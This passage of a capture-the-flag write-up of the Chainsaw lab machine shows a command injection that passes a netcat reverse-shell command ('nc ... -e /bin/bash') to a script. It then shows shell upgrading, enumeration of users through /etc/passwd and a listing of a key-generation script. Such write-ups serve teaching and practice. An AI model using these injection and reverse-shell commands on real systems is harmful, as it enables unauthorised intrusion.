 > python3 chainsaw.py '; nc 10.10.14.35 4444 -e /bin/bash'

Waiting for reverse shell:

```python

➜  chainsaw nc -lvnp 4444                                           
listening on [any] 4444 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.10.142] 40676
id
uid=1001(administrator) gid=1001(administrator) groups=1001(administrator)
python -c 'import pty; pty.spawn("/bin/bash")'
administrator@chainsaw:/opt/WeaponizedPing$ 

```
Before doing anything i upgraded my shell. After that quickly searched for the user.txt but it is not here, so back to further enumeration. 

###### System Enumeration :

I can see user another user "bobby" in the system.

```python

administrator@chainsaw:/home$ awk -F: '$3 >= 1000 {print}' /etc/passwd
awk -F: '$3 >= 1000 {print}' /etc/passwd
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
bobby:x:1000:1000:Bobby Axelrod:/home/bobby:/bin/bash
administrator:x:1001:1001:Chuck Rhoades,,,,IT Administrator:/home/administrator:/bin/bash
administrator@chainsaw:/home$ 
```

Interesting files in maintain folder:


```python

administrator@chainsaw:~/maintain$ cd pub && ls -al
total 28
drwxrwxr-x 2 administrator administrator 4096 Dec 13  2018 .
drwxr-x--- 3 administrator administrator 4096 Dec 13  2018 ..
-rw-rw-r-- 1 administrator administrator  380 Dec 13  2018 arti.key.pub
-rw-rw-r-- 1 administrator administrator  380 Dec 13  2018 bobby.key.pub
-rw-rw-r-- 1 administrator administrator  380 Dec 13  2018 bryan.key.pub
-rw-rw-r-- 1 administrator administrator  380 Dec 13  2018 lara.key.pub
-rw-rw-r-- 1 administrator administrator  380 Dec 13  2018 wendy.key.pub
```

In pub folder we can see public key of bobby:


```python

administrator@chainsaw:/home/administrator/maintain$ cat gen.py 
#!/usr/bin/python
from Crypto.PublicKey import RSA
from os import chmod
import getpass

def generate(username,password):
        key = RSA.generate(2048)
        pubkey = key.publickey()

        pub = pubkey.exportKey('OpenSSH')
        priv = key.exportKey('PEM',password,pkcs=1)

        filename = "{}.key".format(username)

        with open(filename, 'w') as file:
                chmod(filename, 0600)
```